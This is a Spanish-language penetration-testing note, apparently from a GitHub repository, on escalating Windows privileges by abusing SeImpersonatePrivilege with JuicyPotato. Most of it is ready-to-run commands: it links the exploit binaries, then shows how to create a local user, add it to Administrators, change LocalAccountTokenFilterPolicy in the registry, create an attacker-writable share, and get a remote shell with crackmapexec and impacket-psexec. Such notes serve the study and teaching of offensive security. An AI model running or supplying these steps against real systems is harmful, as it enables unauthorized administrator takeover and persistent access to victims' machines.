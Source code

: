 --- 

# SeImpersonatePrivilege 

El privilegio SeImpersonatePrivilege es un privilegio de Windows que permite a un proceso tomar la identidad de otro usuario o cuenta de servicio. Este privilegio es utilizado por los servicios de Windows y otros procesos para llevar a cabo tareas en nombre de un usuario o cuenta de servicio específica, incluso si el proceso que las ejecuta tiene un nivel de privilegio más bajo.

----
# Juicy Potato 

JuicyPotato es una técnica utilizada en el ámbito de la seguridad informática para aprovechar ciertas vulnerabilidades y lograr una escalada de privilegios en sistemas Windows. JuicyPotato se basa en una debilidad en la forma en que Windows maneja los nombres de objetos COM (Component Object Model). Permite a un atacante obtener el privilegio **SeImpersonatePrivilege** para ejecutar código malicioso con los privilegios elevados asociados a dicho privilegio
Para elevar privilegios abusando del privilegio **SeImpersonatePrivilege** haciendo uso de la técnica **Juicy Potato**, podríamos descargarnos el binario encargado de explotar esta vulnerabilidad como [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) o [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1)
En ambos, al traspasarlo a la máquina victima y ejecutarlo, podríamos realizar acciones privilegiadas y ejecutar comandos como el user Administrator.

```powershell
> .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami"
```
En este ejemplo solo estamos ejecutando el comando **whoami**, pero podríamos hacer uso de esto para tener completo acceso al sistema: 

Agregamos el usuario y su contraseña al sistema

```powershell
> .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c net user {name} {password} /add" -l 1337
```

Agregamos el usuario creado al grupo **Administrators**

```powershell
>  .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c net localgroup {name} Administrators /add" -l 1337
```

En este punto podríamos verificar con herramientas como **crackmapexec** si ya tenemos acceso al sistema siendo administradores: 

```bash
crackmapexec smb {target_ip} -u '{name}' -p '{password}'
```

En caso de ver un **(Pwned!)** podríamos conectarnos de manera remota con el máximo de privilegios, en caso de que no, aveces suele ser necesario retocar un componente de un registro (**LocalAccountTokenFilterPolicy**)

```powershell
>  .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
# reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

Por lo que ahora si volvemos a validar con **crackmapexec** veríamos el *(Pwned!)* y podríamos conectarnos con **impacket-psexec** proporcionando el usuario que hemos creado y la contraseña.

```bash
impacket-psexec WORGROUP\{name}@{target_ip} cmd.exe
```

#### IMPORTANTE: 

Es importante a tener en cuenta que a la hora de ejecutar este comando lo que se está intentando realizar es subir un binario malicioso en un recurso compartido a nivel de red en el cual tengamos permisos de escritura, en caso de no existir uno, podría ser necesario adicionalmente crear uno. 

```powershell
>  .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337
```